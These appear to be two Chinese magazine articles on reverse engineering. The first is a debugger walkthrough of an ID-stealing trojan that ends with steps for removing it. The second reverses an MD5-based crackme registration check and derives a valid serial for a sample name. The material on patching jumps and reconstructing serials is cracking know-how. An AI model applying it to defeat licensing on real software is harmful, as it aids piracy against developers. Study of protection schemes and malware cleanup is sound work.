虽然信息不全，但是稍微整理下就可以发现，$$a.bat 所存在的目的就是删除某个文件（事后发现，如果在释放文件途中被打断，这个批处理会用来毁尸灭迹，也就是传说中擦 PP 的东西）。

用 CALL 来到 004051EB 处，有如下代码：

```text
004051EB 3C 01           cmp al,1
004051ED 0F85 EC010000   jnz ...
004051F3 8D45 EC         lea eax,dword ptr ss:[ebp-14]
004051F6 E8 79F8FFFF     call ...
```

在 004051ED 处需要小心，如果直接跳过去，那么程序就跑“飞”了；而在 004051F3 处下断点也是没用的。很简单，把 JNZ 改成 JZ，这样就不跳了（改成 NOP 也行，目的是不让程序跳转）。后来来到 00405208 处，得到如图3所示的信息。由此可以判定，程序在 System32 文件夹里释放出……

## 秘密反汇编

### SECRET OF CRACK

栏目编辑 jcefire | jcefire@hacker.com.cn

```text
（反汇编代码片段，图3上方）
```

图3

Myzr.dll，继续 F8，跳过了 N 多无用信息后，来到如图4所示的程序领空。

```text
（反汇编代码片段，图4）
```

图4

看来这是个盗窃 ID 的木马，利用方式是 ASP 收信。继续用 F8 跑完全程，后面就没有太多有意义的信息了。好了，到此了解到了程序运行时释放的所有东西，我们可以开始工作了，下面正式进入清理过程。打开清理恶意软件的法宝冰刃（Icefire）...

是 Explore.exe 可以删除，说明并没有运行，而 Myzr.dll 不能删除，可能是它与某个程序挂钩了，拿出瑞星听诊器，扫了下内存，发现 DLL 挂在了 Explorer.exe 上，如图5所示。


图5

这样一来就简单了，直接把 Explorer 进程 Kill 掉，这时候会发现桌面消失了，然后利用“创建新任务”进入 C 盘，再删除掉 Myzr.dll。最后进入注册表中，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 的 Userinit 项发现了 `C:\WINDOWS\System32\userinit.exe,C:\WINDOWS\System32\explore.exe`，这就是木马的注册表启动项目，直接删之。至此，免杀木马清除完毕。

- 适合读者：破解爱好者，加密爱好者
- 前置知识：汇编基础

## 软件保护中MD5算法的另类应用

文/图 TC-XB

作为一种主流的加密算法，MD5 算法广泛应用于软件保护领域。在软件的注册保护中，MD5 经常被用于输入算法信息进行加密。一般来说较为简单常见的用法是“MD5(注册码)=注册码”或“MD5(注册码，机器码)=注册码”。这样的加密方法有一定保护效果，但随着破解技术的进步...

```asm
00401AA3  E8 68010000  call <jmp.&USER32.GetDlgItemTextA>
```

对于以上代码，可以在任意一处下断。设置好了断点，让程序运行起来，任意输入注册信息并确定以后，程序就中断了。

> 对于下断点，也可以采取在命令行输入“BP GetDlgItemTextA”这样的方法来下断。

我们先来一段一段地分析代码，首先检验注册码如下：

```asm
00401A94 68 2C010000 push 12C
00401A99 68 80334000 push 00403380
00401A9E 6A 64 push 64
00401AA0 FF75 08 push dword ptr [ebp+8]
00401AA3 E8 68010000 call <jmp.&USER32.GetDlgItemTextA>
00401AA8 0BC0 or eax,eax
00401AAA 7519 jnz short ...
```

我们在注册流程开始的地方，也就是程序取输入的注册名准备进行计算时下断点，其代码如下：

```asm
00401A94 68 2C010000 push 12C
00401A99 68 80334000 push 00403380
00401A9E 6A 64 push 64
00401AA0 FF75 08 push dword ptr [ebp+8] ...
```

```asm
00401AAC  6A 00           push 0
; /Style = MB_OK|MB_APPLMODAL
00401AAE  68 E0324000     push 004032E0
; |oooh input error
00401AB3  68 F1324000     push 004032F1
; |your name please !!!
00401AB8  6A 00           push 0
; |hOwner = NULL
00401ABA  E8 5D010000     call <jmp.&USER32.MessageBoxA>
00401ABF  C9              leave
```

这是典型的对注册名的检验，不过程序在这里没有对注册名进行位数、格式等过多的限制，只是最基本的要求。检验完毕了注册名，接下来就是对注册码的检验，代码如下：

```asm
00401AC6  68 2C010000     push 12C
; /Count = 12C (300.)
00401ACB  68 F89C4000     push 00409CF8
; |Buffer = kgme-#1, 00409CF8
00401AD0  68 C8000000     push 0C8
; |ControlID = C8 (200.)
00401AD5  FF75 08         push dword ptr [ebp+8]
; |hWnd
00401AD8  E8 33010000     call <jmp.&USER32.GetDlgItemTextA>
00401ADD  0BC0            or eax,eax
00401ADF  75 17           jnz short 00401AF8
00401AE1  6A 00           push 0
00401AE3  68 E0324000     push 004032E0
00401AE8  68 06334000     push 00403306
00401AED  6A 00           push 0
00401AEF  E8 28010000     call <jmp.&USER32.MessageBoxA>
00401AF4  C9              leave
```

这也和注册名的检验一样，没有过多的要求。当对注册信息检验完毕以后，就来到了真正的核心部分了，也是重点的开始。按照常理，既然用到了 MD5 算法，那么加密的过程无非就是简单一点的 MD5（注册名）或者稍复杂一点的 MD5（注册名+固定字符串）。那么这个例子中是如何应用的，又有什么特别的地方呢？我们继续，会来到这里：

```asm
00401AF5  C2 1000         retn 10
00401AF8  68 34334000     push 00403334
; /byteptr [e!]
```

当跟踪到这里的时候，出现了一个字符串“byteptr [e!]”，继续向后看：

```asm
00401AFD  68 80334000     push 00403380
; /ConcatString = "lovetc", 80
00401B02  E8 EB000000     call <imp.&KERNEL32.lstrcatA>
00401B07  58              pop eax
; 将注册名与固定字符串byteptr [e!]合并，设为字符串A
```

现在我们明白了，这段代码的作用就是用注册名与固定字符串“byteptr [e!]”合并，组成一个新的字符串。我们设这个字符串为 A。按照上文所说，这里的 MD5 计算很可能就是 MD5（注册名+固定字符串）的那一类型。果然，后面紧跟的代码就是进行 MD5 计算的：

```asm
00401B08  68 A8564000     push 004056A8
; /Arg3 = 004056A8
00401B0D  50              push eax
; |Arg2
00401B0E  68 80334000     push 00403380
; |Arg1 = 00403380
00401B13  E8 E4FFFFFF     call 00401000
; 执行MD5运算
```

在此处，程序进行了 MD5 计算，不过在堆栈的提示中看不到计算的结果，我们需要在命令行中输入命令 `D 004079D0` 来查看计算的结果。我们看到的计算结果是 `3A76C4E1F2907B1C35319657E278EA05`，这也许就是 `MD5(字符串A)` 的结果吧。

我们使用计算器验证一下 `MD5(lovetcbyteptr [e!]) = B508A9E8E1CAC387207F6E7A1AD759F6`，结果居然不一样。将注册名与固定字符串合并，再用 MD5 计算，这是很标准的过程，怎么会出现计算结果不一样的情况呢？其实问题就出在被加密的信息上。虽然注册名经过合并组成了新的字符串，但是这个新的字符串并不参与 MD5 的计算。这个字符串实质上就是一个烟雾弹，如果按照常理而不加分析，一不小心就会上圈套。

虽然我们的分析表明注册名被处理了，但是真正被 MD5 加密的依然是输入的注册名。

> MD5(lovetc) = 3A76C4E1F2907B1C35319657E278EA05

与结果符合！所以我们可以总结出 MD5 在软件保护中另类应用的第一条：在 MD5 的应用中，可以伪装被加密的信息。这样破解者以为被加密的信息，恰恰是我们精心构造的伪装信息。

再继续跟踪，进行了 MD5 的计算，程序又在干什么呢？

```asm
00401B18  E8 5C000000     call 00401B79
; 跟进这个CALL
```

这个 CALL 紧随 MD5 计算之后，所以跟进看看，我们会来到这里：

```asm
00401B79  60              pushad
00401B7A  BF D0794000     mov edi,004079D0
; 用于存放最后的结果
00401B7F  BE A8564000     mov esi,004056A8
; 将MD5（注册名）放进ESI中
00401B84  8B06            mov eax,[esi]
; 取第一组数据放进EAX中
00401B86  8B5E 04         mov ebx,[esi+4]
```

#### 代码片段

```asm
; 取第二组数据放进 EBX 中
00401B89  33C3          xor eax, ebx
; XOR(第一组数据, 第二组数据)，结果设为 A
00401B8B  50            push eax
00401B8C  68 5C334000   push 0040335C
; Format = "%.8X"
00401B91  57            push edi
00401B92  E8 67000000   call <jmp.&USER32.wsprintf>
...
00401B9D  81F3 0900BD0F xor ebx,0FBD0099
; XOR(第二组数据, 0xFBD0099)，结果设为 B
...
00401BB5  33CB          xor ecx, ebx
; XOR(第三组数据, 结果B)，结果设为 C
...
00401BC9  81F3 09A0C00B xor ebx,0B0C0A09
; XOR(结果C, 0xB0C0A09)，结果设为 D
...
00401BE4  61            popad
00401BE5  C3            retn
```

结合代码后的提示，可以想想这些数据是从哪里来的呢？我们知道在运行到这里之前，程序刚刚进行了 MD5 计算，所以这几组数据与 MD5 计算结果肯定有密切关系。还是结合实例来说明。

lovetc：

> MD5(lovetc) = `3A76C4E1F2907B1C35319657E278EA05`

现在就要对这个计算结果进行分组，将 MD5 计算结果按 8 位为一组进行分组：  
`3A76C4E1` `F2907B1C` `35319657` `E278EA05`

- 对第一组数据的计算：`XOR(3A76C4E1, F2907B1C) = C8E6BFFD`（结果 A）
- 对第二组数据的计算：`XOR(F2907B1C, 0xFBD0099) = FD2D7B85`（结果 B）
- 对第三组数据的计算：`XOR(35319657, FD2D7B85) = C81CEDD2`（结果 C）
- `XOR(结果C, 0xB0C0A09)`（结果 D）

现在我们得到了 4 个计算结果，按常理这些结果再一合并就可能是注册码了。也就是说合并 `C8E6BFFD FD2D7B85 C81CEDD2 F621718C` 就可以得到注册码了。既然如此，我们就验证一下这个结果，输入注册码后发现仍不正确。

为什么呢？原来问题出在注册码的组成上。最后一个计算结果（结果 D）并不参与注册码组成。注册码最后一部分由 MD5（注册码）的最后一组数据（第 4 组）组成，因此最终注册码应为：  
`C8E6BFFD FD2D7B85 C81CEDD2 E278EA05`，  
即 `C8E6BFFDFD2D7B85C81CEDD2E278EA05`。

至此可以总结出 MD5 在软件保护中应用的一条经验：完成 MD5 计算后，可对结果再处理并加入伪装/垃圾信息，这些信息参与运算但不参与最终注册码组成，可有效增加逆向分析难度。同时在最终比较时，应避免注册码明文长期驻留内存。